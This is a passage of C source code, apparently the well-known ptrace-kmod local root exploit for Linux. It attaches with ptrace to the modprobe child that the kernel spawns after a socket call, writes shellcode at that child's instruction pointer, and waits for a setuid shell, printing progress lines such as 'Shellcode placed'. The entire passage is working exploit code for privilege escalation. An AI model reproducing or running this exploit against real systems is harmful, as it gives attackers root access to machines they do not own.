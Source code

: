 ```c ptrace-kmod.c
	if (gotchild++ == 0)
		return;
	
	fprintf(stderr, "[+] Signal caught\n");

	if (ptrace(PTRACE_GETREGS, victim, NULL, &regs) == -1)
		fatal("[-] Unable to read registers");
	
	fprintf(stderr, "[+] Shellcode placed at 0x%08lx\n", regs.eip);
	
	putcode((unsigned long *)regs.eip);

	fprintf(stderr, "[+] Now wait for suid shell...\n");

	if (ptrace(PTRACE_DETACH, victim, 0, 0) == -1)
		fatal("[-] Unable to detach from victim");

	exit(0);
}

void sigalrm(int signo)
{
	errno = ECANCELED;
	fatal("[-] Fatal error");
}

void do_child(void)
{
	int err;

	child = getpid();
	victim = child + 1;

	signal(SIGCHLD, sigchld);

	do
		err = ptrace(PTRACE_ATTACH, victim, 0, 0);
	while (err == -1 && errno == ESRCH);

	if (err == -1)
		fatal("[-] Unable to attach");

	fprintf(stderr, "[+] Attached to %d\n", victim);
	while (!gotchild) ;
	if (ptrace(PTRACE_SYSCALL, victim, 0, 0) == -1)
		fatal("[-] Unable to setup syscall trace");
	fprintf(stderr, "[+] Waiting for signal\n");

	for(;;);
}

void do_parent(char * progname)
{
	struct stat st;
	int err;
	errno = 0;
	socket(AF_SECURITY, SOCK_STREAM, 1);
	do {
		err = stat(progname, &st);
	} while (err == 0 && (st.st_mode & S_ISUID) != S_ISUID);
	
	if (err == -1)
		fatal("[-] Unable to stat myself");
```